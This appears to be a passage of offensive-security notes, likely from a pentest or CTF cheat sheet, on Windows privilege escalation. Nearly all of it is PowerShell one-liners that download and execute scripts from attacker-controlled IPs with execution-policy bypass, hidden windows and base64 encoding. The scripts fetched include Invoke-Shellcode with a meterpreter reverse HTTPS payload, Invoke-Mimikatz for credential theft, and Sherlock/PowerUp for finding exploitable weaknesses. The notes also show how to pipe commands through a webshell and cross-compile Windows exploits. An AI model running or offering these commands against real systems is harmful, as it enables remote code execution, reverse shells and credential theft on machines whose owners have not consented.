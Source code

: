 Do we want to run Invoke-Shellcode.ps1?
```powershell
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
```

### Kernel Exploits 

Here we want to run the Sherlock/Watson and PowerUp scripts to check for low hanging fruit and easy wins. The functions we want are Find-AllVulns and Invoke-AllChecks. You can just use the -encodedcommand flag and not deal with these quotes as well.

https://github.com/rasta-mouse/Sherlock

https://github.com/rasta-mouse/Watson

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

The normal way to run a powershell script using net webclient objects with no modifications.
```powershell
powershell `IEX((new-object net.webclient).downloadstring('http://10.10.14.22:8000/Sherlock.ps1')); Find-AllVulns`
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks"
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

If we have a webshell or something non interactive try piping it to powershell and pulling from stdin like so. Thanks to Ippsec for showing this method. 
https://www.youtube.com/watch?v=lP-E5vmZNC0
```powershell
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Sherlock.ps1'); | powershell -noprofile -
```
Sometimes its easier to encode your PS commands into UTF/base64 like so...
```powershell
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');" | iconv --to-code UTF-16LE | base64 -w 0
```
Then just run it on your windows shell... 
```powershell
powershell -encodedcommand ADFSDGSDGSDGDSG==
```

Otherwise just upload it somewhere and execute these 
```powershell
powershell -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Sherlock.ps1
Find-AllVulns
```
Compiling all these Windows exploits on Linux can really be a pain in the ass 
```bash
i686-w64-mingw32-gcc exploit.c -o exploit
```
or for 32 bit 
```bash
i686-w64-mingw32-gcc 40564.c -o 40564 -lws2_32 
```
Precompiled windows exploits they seem safe...
